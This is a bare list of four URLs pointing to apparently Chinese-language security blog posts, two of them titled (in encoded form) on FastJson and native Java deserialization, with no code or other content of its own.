https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/

https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E4%BA%8C/

https://www.cnpanda.net/sec/893.html

https://www.cnpanda.net/sec/928.html